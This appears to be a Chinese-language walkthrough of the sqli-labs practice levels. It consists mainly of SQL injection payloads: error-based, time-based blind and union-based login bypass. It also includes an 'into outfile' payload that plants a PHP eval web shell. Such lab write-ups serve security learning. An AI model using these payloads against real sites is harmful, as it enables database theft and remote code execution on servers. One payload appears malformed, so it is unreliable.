 二次注入有点懵逼，直接注入没有任何回显，函数报错盲注搞起

```sql
?id=11' and (extractvalue(1,concat(0x7e,(select flag from flag),0x7e)));%23
```
##### Less-6 Double Injection - Double Quotes

```sql
?id=11" and (extractvalue(1,concat(0x7e,(select flag from flag),0x7e)));%23
```
##### Less-7 Dump into outfile

```sql
?id=1 union select 1,2,'<?php @eval($_POST[1])?>' into outfile 'D:\\a.php';
```
##### Less-8 Blind - Boolean Based - Single Quotes

没有任何报错信息，无法直接根据报错注入，时间盲注

```sql
id=1' and if(ascii(substr((select username from users limit 0, 1), 1, 1))=68 ,1 , SLEEP(5) --+
```
##### Less-9、Less-10 这两个与 8 类似

##### Less-11 Error Based - Single quotes

```sql
uname=-1' union select 1,flag from flag#&passwd=&submit=Submit
```
##### Less-12
```sql
uname=-1") union select 1,flag from flag#&passwd=&submit=Submit
```
##### Less-13

发现有报错信息，尝试报错注入

```sql
uname=-1') and (extractvalue(1,concat(0x7e,(select flag from flag),0x7e)));%23&passwd=&submit=Submit
```
##### Less-14

双引号

```sql
uname=1" and (extractvalue(1,concat(0x7e,(select flag from flag),0x7e)));%23&passwd=&submit=Submit
```
##### Less-15 Less-16

##### Less-17

利用 update 注入，有明显的报错信息，可以报错注入，并且没有验证之前的密码

```sql
uname=admin&passwd=11'and extractvalue(1,concat(0x7e,(select @@version),0x7e))#&submit=Submit
```
##### Less-18 Header Injection  - Uagent field - Error based
